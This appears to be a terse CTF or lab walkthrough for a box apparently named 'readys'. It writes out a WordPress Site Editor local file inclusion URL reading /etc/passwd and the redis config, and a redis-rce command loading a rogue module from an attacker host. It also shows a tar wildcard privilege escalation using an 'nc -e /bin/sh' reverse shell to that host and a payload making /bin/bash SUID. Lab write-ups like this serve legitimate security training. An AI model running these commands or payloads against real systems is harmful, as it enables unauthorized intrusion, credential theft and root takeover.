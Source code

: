 ______

> [!info]
> IP=192.168.188.166

# 6379 - redis

NOAUTH Authentication required.

# 80 - wordpress

Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.188.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)


## WordPress Plugin Site Editor 1.1.1 - Local File Inclusion

https://www.exploit-db.com/exploits/44340

```bash
http://192.168.188.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

alice

/etc/redis/redis.conf

requirepass Ready4Redis?


# 6379 - redis

https://github.com/n0b0dyCN/redis-rogue-server
no pass option

```bash
redis-cli -h $IP
AUTH Ready4Redis?
```

https://github.com/Ridter/redis-rce

```bash
python3 redis-rce.py -r $IP -p 6379 -L 192.168.45.231 -f redis-rogue-server/exp.so -a "Ready4Redis?"
```


# PrivEsc

![[Pasted image 20240221223515.png]]


revshell to http://192.168.188.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/run/redis/test.php


```bash
cat /etc/crontab
*/3 * * * * root /usr/local/bin/backup.sh
```

```bash
#!/bin/bash
cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```


gtfo bins tar

```bash
cd /var/www/html
echo '#!/bin/bash' > shell.sh
echo "nc -e /bin/sh 192.168.45.231 443" >> shell.sh
touch ./"--checkpoint=1"  
touch ./"--checkpoint=1-action=exec=bash shell.sh"
```


```bash
alice@readys:/var/www/html$ echo "" > '--checkpoint=1'
alice@readys:/var/www/html$ echo "" > '--checkpoint-action=exec=sh payload.sh'
alice@readys:/var/www/html$ nano payload.sh 
alice@readys:/var/www/html$ chmod +x payload.sh 
alice@readys:/var/www/html$ cat payload.sh 
chmod 4777 /bin/bash
```
